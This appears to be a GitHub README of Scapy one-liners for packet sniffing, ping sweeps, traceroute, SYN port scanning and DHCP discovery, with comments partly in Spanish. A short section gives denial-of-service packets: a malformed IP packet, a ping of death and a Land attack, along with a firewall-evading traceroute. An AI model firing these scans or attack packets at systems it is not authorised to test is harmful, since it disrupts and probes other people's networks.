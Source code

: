 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs

examples - examples for official Scapy usage and more


## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## One line examples

Sniffing:
 
Sniffing on eth0:
```python
    sniff(iface="eth0",prn=lambda x: x.summary())
    sniff(iface="eth0",prn=lambda x: x.show())
```
	
Formated sniff output
```python
    pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
```
	
Identify ports
```python
    a=sniff(filter="tcp and ( port 25 or port 110 )",
    prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
```
 
Ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```
	//con icmp bloqueado
	```python
	ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
    ```
    
	//Udp Ping
	```python
	ans,unans=sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
    ```
ARP ping manual:
```python
	ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

ARP ping built in:
```python
	arping("192.168.1.1")
```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	//graficar
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

traceroute avanzado:
```python
	//saltandose cortafuegos-por el dns
	ans,unans=sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Dump traceroute output:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

Port scanner:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```
un ataquesillo:
	paquete mal formado:
	
```python
    send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
```
	
Ping of death:
```python
    send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
```

Land attack (windows):
```python
    send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```
 
verificandos DHCP de la red:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	//mostando
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html
